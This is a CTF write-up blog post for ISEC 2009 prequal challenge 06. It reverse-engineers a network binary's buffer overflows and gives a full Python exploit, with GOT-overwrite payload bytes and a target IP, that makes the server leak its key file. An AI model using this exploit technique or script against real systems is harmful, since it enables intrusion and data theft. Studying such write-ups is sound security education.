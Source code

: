 ```yaml
---
title: 'ISEC 2009 CTF Prequal &#8211; Challenge 06'
author: rd
excerpt: |
  |
    In the earlier of this month, I helped CLGT team on the second day of CTF prequal game for ISEC 2009 conference. Since I only had a company Windows XP laptop on that day, it was a pain using a FreeBSD 64bit freeshell on geekshells.org to solve freebsd challenges (things like gcc with -m32 didn't work, some weird behaviors when trying to mess around with GOT/PLT/BSS/LIBC in 32-bit compatibility mode, some random users kept sending wall messages in the mid of gdb session because I didn't do mesg -n in the first time). Anyway, here is the write up for challenge 06. Write up for challenge 12 will be posted later.
layout: post

shorturls:
  - 'a:4:{s:9:"permalink";s:70:"https://www.vnsecurity.net/2009/08/isec-2009-ctf-prequal-challenge-06/";s:7:"tinyurl";s:26:"http://tinyurl.com/yakhcon";s:4:"isgd";s:18:"http://is.gd/aOtbh";s:5:"bitly";s:20:"http://bit.ly/8KLfcr";}'
tweetbackscheck:
  - 1408358997
twittercomments:
  - 'a:0:{}'
tweetcount:
  - 0
categories:
  - 'CTF - CLGT Crew'
---
```

</p> 
## Summary

The binary [blackhole ][1]contains remote buffer overflow bugs. By exploiting these bugs, we can overwrite a buffer pointer being used as the destination for another* strcpy() *later in the program. Hence, we can write 128 bytes of chosen data to any location we want to.

### Vulnerability</p> 

Reverse C code of the buggy function at address **0x8048A20** 

<pre class="brush: cpp; gutter: true; highlight: [23,33,44,45]; title: ; notranslate" title="">signed int conn_handle(int fd)
{

   unsigned int s;
   int len;
   char buf128[128];
   char destrandbuf12[12];
   char randbuf12[12];
   char destbuf16[16];
   int randnum;
   char *buf_ptr;
   FILE *stream;

   randnum = 0;
   buf_ptr = 0;
   sockfd = fd;
   sendtosocket(fd, "name : ", 7);
   memset(buf128, 0, 128);
   s = time(0);
   srand(s);
   randnum = rand() % 10000;
   readfromsocket(fd, buf128, 32, 10);
   strcpy(destbuf16, buf128);
   memset(randbuf12, 0, 12);
   snprintf(randbuf12, 5, "%d", randnum);
   xor_randnum(randbuf12, destrandbuf12);
   snprintf(buf128, 64, "hello %s , your key : %sn", destbuf16, destrandbuf12);
   len = strlen(buf128);
   sendtosocket(fd, buf128, len);
   sendtosocket(fd, "surisuri : ", 11);
   memset(buf128, 0, 128);
   readfromsocket(fd, buf128, 128, 10);
   if ( strncmp(buf128, randbuf12, 4) )
   {
     stream = fopen("/dev/null", "w");
     fputs(buf128, stream);
     sendtosocket(fd, "blackholen", 10);
     exit(1);
   }
   stream = fopen("./key", "r");
   if ( stream )
   {
     fread(keystr, 32, 1, stream);
     strcpy(randbuf12, buf128);
     strcpy(buf_ptr, buf128);
     printf("abrakatabra the key is %sn", "elohkcalb");
     exit(1);
   }
   return -1;
}
</pre>

There are two buffer overflow bugs:  
    &#8211; 16 bytes overflow at line 23: *strcpy(destbuf16, buf128)*  
    &#8211; 116 bytes overflow at line 44: *strcpy(randbuf12, buf128)</p> 
</i>

### Exploit

In order to reach the second buggy code at line 44, we need to provide the proper input to pass random check *strncmp(buf128, randbuf12, 4)* at line 33. The easiest way to do this is to overwrite the \`***randnum***\` value using the first *strcpy()* at line 23. After that, by using the second overflow bug at line 44, we can overwrite \`***buf_ptr***\` pointer in the subsequence *strcpy(buf_ptr, buf128)* at line 45 to be able to write 128 bytes of input data to any memory address.

It&#8217;s possible to overwrite the GOT table in the way that the server would send the content of *./key* file back to the client via *sendtosocket()*. Since the static variable \`***keystr***\` is used to store the content of *./key* file, we can craft the GOT table to change the program flow to end up with something like 

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">; printf GOT points to 0x08048C63
.text:08048C63                 mov     dword ptr [esp+4], 20h ; size
.text:08048C6B                 mov     dword ptr [esp], offset keystr ; ptr
.text:08048C72                 call    _fread

; fread GOT points to 0x08048B98
.text:08048B98                 mov     eax, [ebp+fd]
.text:08048B9B                 mov     [esp], eax      ; fd
.text:08048B9E                 call    sendtosocket
</pre>

which is equivalent to *sendtosocket(fd, keystr, 32)* so the server will send us back 32 bytes content of ./key file. 

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">$ python 6.py
&lt; name :
&lt; hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa , your key : 0407
&lt; surisuri :
KEY: wowyougotpasswordgonextlevel
</pre></p> 

### Exploit Code</p> 

<pre class="brush: python; gutter: true; title: ; notranslate" title="">#!/usr/bin/env python

import socket

host = '221.143.48.88'
port = 57005
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))

ret = s.recv(1024)
print "&lt; %s" % ret

name = "a"*32 + "n"
s.send(name)

ret = s.recv(1024)
print "&lt; %s" % ret

ret = s.recv(1024)
print "&lt; %s" % ret

# GOT - from 0x0804A2FC waitpid_ptr
# RANDSTR[4] PAD[4] CALL_SENDTOSOCKET[4] PAD[20] BUF_PTR[4]
# PAD[4] CALL_FREAD[4]

RANDSTR = "1633"
CALL_SENDTOSOCKET = "x98x8Bx04x08"	# fread GOT
CALL_FREAD = "x63x8Cx04x08" 	# printf GOT
BUF_PTR = "xFCxA2x04x08"		# waitpid GOT
surisuri = RANDSTR + "A"*4 + CALL_SENDTOSOCKET + "A"*20 
           + BUF_PTR + "A"*4 + CALL_FREAD + "n"
s.send(surisuri)

ret = s.recv(1024)
print "KEY: %sn" % ret

s.close
</pre></p>

 [1]: /vnsec/Members/rd/Files/misc/blackhole